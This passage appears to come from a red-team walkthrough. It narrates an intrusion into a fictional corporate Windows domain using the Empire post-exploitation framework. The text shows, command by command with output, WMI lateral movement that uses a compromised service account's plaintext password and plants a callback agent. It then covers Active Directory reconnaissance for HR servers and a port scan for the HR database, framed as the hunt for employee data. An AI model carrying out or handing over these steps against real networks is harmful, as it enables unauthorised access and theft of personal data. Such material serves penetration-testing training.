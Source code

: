 With a domain admin account in hand, we can now search for employee data. Although we can gather some information by looking for shares using the share_finder module, the real source is likely in a structured database.

We position an agent on one of the HR servers using WMI for lateral movement:

```
(Empire: salesFTP) > usemodule lateral_movement/invoke_wmi
(Empire: invoke_wmi) > set Listener AttackSrv_List
(Empire: invoke_wmi) > set UserName GHBR\svc_ps
(Empire: invoke_wmi) > set Password Sheldon*01
(Empire: invoke_wmi) > set ComputerName SR0011.GBHR.CORP
(Empire: invoke_wmi) > run
[+] Initial agent VJAKEHA86D9AJDAG from 10.40.40.11 now active
(Empire: invoke_wmi) > interact VJAKEHA86D9AJDAG
(Empire: VJAKEHA86D9AJDAG) > rename HRAgent
(Empire: HRAgent) >
```

A simple query looking for the keyword “HR” in a server’s description returns several promising results:

```
(Empire: HRAgent) > usemodule situational_awareness/network/powerview/get_computer
(Empire: get_computer) > set Filter description=*HR*
(Empire: get_computer) > set FullData True
(Empire: get_computer) > run
Logoncount       : 441
Badpasswordtime  : 1/1/1601 1:00:00 AM
Description      : Master HR database
Objectclass      : CN=SR0040,CN=Computers,DC=GBHR,DC=CORP
Lastlogontimestamp : 3/26/2017 5:52:17 PM
Name             : SR0040
```

Note: *the usemodule situational_awareness/network/powerview/get_computer module in Empire is a part of PowerView, a PowerShell tool designed for gaining situational awareness within Windows Active Directory environments. The get_computer module is used to gather information about computer objects within an Active Directory domain. It queries Active Directory for information on computer objects, which includes various details such as computer names, descriptions, last logon timestamps, and more. You can apply filters to narrow down the search results based on specific attributes like descriptions, organizational units, or any other LDAP properties. With the FullData option enabled, it provides comprehensive details about each computer object.*

To our delight, admins tend to use meaningful server names and descriptions, making our job easier. The HR database is obviously on SR0040.GBHR.CORP. Since it is hosted on a Windows server, it is likely running on Microsoft SQL Server. However, we should confirm this hypothesis.

A quick port scan on the usual SQL ports (1521 for Oracle, 3306 for MySQL, and 1433 for SQL Server) should confirm this. Although, it is worth noting that SQL Server ports tend to be dynamically chosen after the 2008 version.

```
(Empire: HRAgent) > usemodule situational_awareness/network/portscan
(Empire: portscan) > set Ports {1433, 1521, 3306}
(Empire: portscan) > set Hosts SR0040.GBHR.CORP
(Empire: portscan) > run
Job started: Debug32_0plza

Hostname             : SR0040.GBHR.CORP
OpenPorts            : 1433
```

